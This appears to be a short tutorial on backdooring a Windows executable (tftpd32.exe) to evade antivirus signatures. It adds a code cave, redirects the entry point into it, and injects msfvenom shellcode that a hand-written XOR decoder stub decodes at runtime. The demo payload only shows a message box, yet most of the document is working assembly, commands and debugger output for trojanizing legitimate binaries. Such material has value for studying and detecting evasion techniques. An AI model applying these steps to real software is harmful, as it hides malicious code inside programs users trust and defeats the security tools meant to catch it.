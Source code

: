 # Basic Signature bypass (e.g. tftp32d.exe)

## Preparation (if the code cave is limited)
### 1. Use LordPE to add a code cave, edit code cave (e.g. 1000 hex size) to be executable
### 2. Add none byte (1000 hex size) by hex editor
```
.rtext code cave
Memory map, item 29
 Address=0046C000
 Size=00001000 (4096.)
 Owner=tftpd32  00400000
 Section=.rtext
 Type=Imag 01001002
 Access=RWE CopyOnWr
 Initial access=RWE

start: 0046C000
end  : 0046D000
```
### 3. check usable small code cave (e.g. .text section)
```
.text code cave
start: 004317E3
end  : 004317FF
size : 1C
```

## 1. Save a backup (take notes) for the Entry Point before program start
```
0041309C > $ E8 E3020000    CALL tftpd32.00413384
004130A1   .^E9 7AFEFFFF    JMP tftpd32.00412F20
004130A6  /$ 55             PUSH EBP
004130A7  |. 8BEC           MOV EBP,ESP
004130A9  |. A1 44B64300    MOV EAX,DWORD PTR DS:[43B644]
```
## 2. Edit CALL tftpd32.004228F5 --> JMP 004317E3 , Jump to small code cave first

## 3. Save registers & flags
```
pushad
pushfd
push eax * 8
```
- Remark the ESP address after pushfd for further actions
- push eax * 8 for avoiding stack changing by shellcode

## 4. Generate shellcode (should add EXITFUNC=none)
```
msfvenom -a x86 --platform windows -p windows/messagebox TEXT="POWERUP" -b '\x00\x0a\x0d' --encrypt xor --encrypt-key riverbed -f hex EXITFUNC=none
```

# 5. encode shellcode (xor, also for decoding)
```
push EBX                             # save ebx original value
MOV EAX,0046C010                     # save starting address of shellcode address to eax
MOV EBX,42                           # declare a magic number you like, e.g. 42 
XOR BYTE PTR DS:[EAX],BL             # xor magic number and shellcode in stack
INC EAX                              # increas the address position
INC EBX                              # change the ebx value
CMP EAX,0046C116                     # check if eax reached the end of shellcode
JLE SHORT 004317EE                   # jmp back to xor if eax doesnt reach the button of shellcode
POP EBX                              # get ebx original value back
JMP 0046C000                         # jmp to shellcode (for execution)

```

## 6. Calculate of ESP original address after shellcode executed
- after pushfd esp=0012FFA0
- after run shellcode esp=0012FF54
`A0 - 54 = 4C`

## 7. Back to original address
```
ADD esp,04C
popfd
popad
CALL 00413384
JMP 004130A1
```
